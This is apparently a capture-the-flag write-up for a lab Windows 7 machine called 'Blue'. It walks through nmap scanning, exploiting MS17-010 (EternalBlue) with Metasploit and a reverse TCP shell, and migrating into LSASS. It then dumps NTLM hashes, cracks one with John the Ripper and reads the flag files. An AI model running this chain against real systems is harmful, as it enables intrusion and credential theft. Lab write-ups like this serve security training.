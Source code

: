 # Blue

## Machine info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.253.11 -oN port_scan.txt

Nmap scan report for 10.10.253.11
Host is up (0.036s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-28T14:22:00
|_Not valid after:  2026-01-27T14:22:00
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-29T14:23:34+00:00
|_ssl-date: 2025-07-29T14:23:40+00:00; -2s from scanner time.
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 2 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-29T14:23:34
|_  start_date: 2025-07-29T14:21:58
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-29T09:23:34-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 59m57s, deviation: 2h14m09s, median: -2s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:18:ab:86:6d:ff (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```



## SMB vuln enumeration

```bash
nmap -p 445 --script vuln 10.10.253.11

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

The host is vulnerable to ms17-010 vulnerability called EternalBlue.



## EternalBlue with Metasploit

Start metasploit and search the modules for thid vulnerability.

```bash
service postgresql start && msfconsole

search ms17-010
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the first module which we found.

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Set the confs and run the exploit

```bash
set RHOSTS 10.10.253.11
set payload windows/x64/shell/reverse_tcp
exploit
```

The exploit was success!

Now we can upgrade our shell into meterpreter shell

```
session -u 1
```

Then, that we have a meterpreter session go to PrivEsc part



## PrivEsc

We are already NT AUTHORITY/SYSTEM but we can migrate our process to obtain all rights.

```bash
ps
migrate LSASS_PID
```

Now we can use the HASHDUMP module of meterpreter to dump all hash in the machine.

```
hashdump

# output 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy the jon row into a file and try to crack it with John the ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT

# output
alqfna22         (Jon)  
```



## Flags

Flag1? _This flag can be found at the system root._&#x20;

```powershell
cd C:\
more flag1.txt
```



Flag2? _This flag can be found at the location where passwords are stored within Windows._

```powershell
cd C:\Windows\System32\config
more flag2.txt
```



flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._&#x20;

```powershell
cd C:\Users\Jon\Documents
more flag3.txt
```
